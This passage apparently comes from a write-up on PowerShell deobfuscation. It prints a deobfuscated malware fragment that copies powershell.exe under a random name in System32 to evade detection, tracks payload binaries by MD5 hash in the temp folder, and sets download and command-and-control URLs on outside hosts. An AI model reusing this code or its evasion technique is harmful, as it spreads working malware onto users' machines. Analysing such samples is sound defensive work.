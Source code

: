 ![](/assets/images/powershell-deobfuscation/ajspDeobf4.gif)

```powershell
if([IntPtr]::Size -eq 8){$is64=$true}
$ifbin="if.bin"
$ifmd5="f284d5a046350ef39136f0083b5acea0"
$krbin="kr.bin"
$krmd5="e04acec7ab98362d87d1c53d84fc4b03"
if($is64){
	$mbin="m6.bin"
	$mmd5="dcd9144d509e7c6e1e63ecdd7e50e935"
	$mgbin="m6g.bin"
	$mgmd5="c8242bffbaf1f76085f140e5a7552692"
}
function gmd5($d){
	[Security.Cryptography.MD5]::Create().ComputeHash($d)|foreach{$l+=$_.ToString('x2')}
	return $l
}
function getrname(){
    $rpath="C:\Windows\System32\Windowspowershell\V1.0"
    $enames = gci "$rpath\*" -Include *.exe -Exclude powershell.exe|foreach{$_.name}
    $tmd5 = gmd5 ([IO.File]::ReadAllBytes("$rpath\powershell.exe"))
    foreach($ename in $enames){
        $md5_=gmd5 ([IO.File]::ReadAllBytes("$rpath\$ename"))
        if($tmd5 -eq $md5_){
            return $ename
        }
    }
    $ename=-join([char[]](48..57+65..90+97..122)|Get-Random -Count (6+(Get-Random)%6)) + ".exe"
    copy-item "$rpath\powershell.exe" "$rpath\$ename"|out-null
    if(!(test-path "$rpath\$ename")){$ename="powershell.exe"}
    return $ename
}
$rename=getrname
$lifmd5,$lmmd5,$lkrmd5="","",""
try{$lifmd5=gmd5 ([IO.File]::ReadAllBytes("$env:tmp\$ifbin"))}catch{}
try{$lmmd5=gmd5 ([IO.File]::ReadAllBytes("$env:tmp\$mbin"))}catch{}
try{$lkrmd5=gmd5 ([IO.File]::ReadAllBytes("$env:tmp\$krbin"))}catch{}
$down_url = "http://d.cu38l.com"
if(!$url){$url="http://t.bb3u9.com"}
$core_url = $url.split("/")[0..2]-join"/"
```